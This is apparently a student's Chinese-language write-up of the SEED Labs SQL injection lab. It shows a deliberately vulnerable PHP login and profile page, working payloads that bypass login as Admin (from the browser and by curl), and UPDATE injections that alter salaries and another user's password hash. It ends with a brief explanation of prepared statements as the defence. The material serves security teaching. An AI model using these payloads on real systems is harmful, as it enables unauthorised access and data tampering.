 # SQL Injection Attack Lab

这一期的主题是 SQL 注入攻击. 

[地址](https://seedsecuritylabs.org/Labs_16.04/Web/Web_SQL_Injection/)

[实验指导](https://seedsecuritylabs.org/Labs_16.04/PDF/Web_SQL_Injection.pdf)

[参考资料](https://blog.csdn.net/qq_37672864/article/details/89331585)


## 预备知识

- SQL 基础

## 实验环境

虚拟机中 `/var/www/SQLInjection/` 给出了一个 web 项目, 本地浏览器访问 `http://www.SEEDLabSQLInjection.com`. 

同样虚拟机已经配装了 MySQL, 指令 `mysql -u root -pseedubuntu` 可访问, 于此实验相关的数据库为 User, 库中包含表 credential. 

``` SQL
use Users;
show tables;
select * from credential;
```

## 实验任务

### T2 SQL Injection Attack on SELECT Statement

在登录页 (对应 `/var/www/SQLInjection/unsafe home.php`) 插入 SQL 片段来完成任务. 下面是 `unsafe home.php` 中相关的代码片段. 

``` php
$sql = "SELECT id, name, eid, salary, birth, ssn, address, email, nickname, Password
        FROM credential
        WHERE name= '$input_uname' and Password='$hashed_pwd'";
```

#### T2.1 SQL Injection Attack from webpage

我们需要在登录页面的输入框中插入 SQL, 以 Admin 的身份登录. 

经过测试, 这段 SQL 是没问题的. 
``` sql
SELECT id, name, eid, salary, birth, ssn, address, email, nickname, Password
FROM credential
WHERE name = 'Admin' and Password = (select Password from credential where name='Admin');
```

如果一切顺利, 3 行 `Password=` 后面的内容就是答案, 但是传入的密码会通过 SHA1 加密, 利用密码的位置插入 SQL 片段不太合适. 所以在用户名位置插入下面的 SQL 片段

``` sql
Admin' and Password = (select Password from credential where name='Admin') #
```
::: tip
最后的 `#` 会注释掉多余的 SQL. 
:::

#### T2.2 SQL Injection Attack from command line
这个本质和 2.1 一样, 但是它要求仿造请求完成插入, 这里使用系统携带的 curl 工具. 
``` bash
curl 'www.SeedLabSQLInjection.com//unsafe_home.php?username=Admin%27%20and%20Password%20%3D%20%28select%20Password%20from%20credential%20where%20name%3D%27Admin%27%29%20%23&Password=111'
```
在请求中出现的特殊字符需要转成 ASCII 的 16 进制编码, 另外 `www.SeedLabSQLInjection.com` 后面的 `/` 貌似需要转义. 

#### T2.3 Append a new SQL statement

这里要求在 2.1 和 2.2 的基础上尝试一次注入两句 SQL, 
``` sql {2}
Admin' and Password = (select Password from credential where name='Admin'); 
insert into credential(name) values('test') #
```
这里第二句是一句插入, 添加一个名为 test 的用户. 

这个实验没有成功. 

### T3 SQL Injection Attack on UPDATE Statement

有 T2 的基础之后, T3 要简单的多, 主要是体验一下对数据库的修改, 相对读取数
据, 这种 SQL 注入危害更大.

任务要求在用户的 Edit Profile 页面注入 SQL, `/var/www/SQLInjection/unsafe edit backend.php` 中对应的代码片段. 
``` php
$hashed_pwd = sha1($input_pwd); 
$sql = "UPDATE credential SET nickname='$input_nickname',email='$input_email', address='$input_address', Password='$hashed_pwd', PhoneNumber='$input_phonenumber' WHERE ID=$id;";
$conn->query($sql);
```

#### T3.1 Modify your own salary

修改自己的薪水, 在 phone number 输入框中输入, 

``` php
', Salary='50000
```
不过这里要假装知道薪水对应的字段是 Salary. 

#### T3.2 Modify other people’ salary
修改自己老板 Boby 的薪水, 在 phone number 中添加,
``` sql
', Salary='1000' where Name='Boby' #
```

#### T3.3 Modify other people’ password
修改老板 Boby 的密码, 进一步打击报复, 在 address 中添加
``` sql
', Password='7c4a8d09ca3762af61e59520943dc26494f8941b', PhoneNumber = '' where Name='Boby' #
```
::: tip
正如之前提到, 这里的密码要预先经过 SHA1 加密, 明文为 123456. 
:::

## 如何应对 SQL 注入

### SQL Server 做了什么
对于 SQL Server, 一条 SQL 语句会被拆解为 SQL 部分与数据部分, 直到最后要写入数据库, SQL 语句都是用 placeholder 来占用数据所在的位置. 按顺序完成: 
1. 对 SQL 语句进行语义检查
1. 将 SQL 语句中的关键字 (SELECT 等) 转成机器可执行的代码
1. 优化, 选择最优操作
1. 将最优的方法写入缓冲区内
1. 将数据与编译完成的 SQL 绑定
1. 写入

### 分离 SQL 部分与数据部分

利用 Prepared SQL Statement 来提前做好数据的占位, 也就是在一开始将 SQL 部分和数据部分分离, 防止数据部分危险的内容与 SQL 部分结合, 串改本意. 





